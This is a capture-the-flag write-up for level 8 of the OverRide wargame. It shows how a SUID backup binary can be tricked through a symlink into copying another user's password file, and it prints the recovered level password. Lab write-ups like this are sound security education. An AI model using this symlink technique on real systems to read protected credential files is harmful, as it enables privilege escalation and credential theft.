 # Level 8

## Vulnerability

Binary backs up password via symlink

## Context

We find a binary ```level08``` and a directory ```backups``` containing ```.log```, all with owner ```level09``` and SUID.
```
level08@OverRide:~$ ls -l
...
drwxrwx---+ 1 level09 users    60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
level08@OverRide:~$ ls -la backups/
...
-rwxrwx---+ 1 level09 users     0 Oct 19  2016 .log
```

When run without arguments its prints ```Usage: ./level08 filename```.
```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
```

When run with a file as argument it copies the file to the ```./backups/``` folder.
```
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ echo "oh hi" > hi
level08@OverRide:~$ ./level08 hi
level08@OverRide:~$ cat backups/hi
oh hi
```

It also creates a log of the backup
```
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: hi
LOG: Finished back up hi
```

## Solution

Can we simply backup the password?
```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

No, because it doesn't deal with files inside directories. So, in the home directory, lets create a symlink to the password. Now we can run the binary on the symlink, and it creates a backup of the password.
```
level08@OverRide:~$ ln -s /home/users/level09/.pass password
level08@OverRide:~$ ./level08 password
level08@OverRide:~$ cat backups/password
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
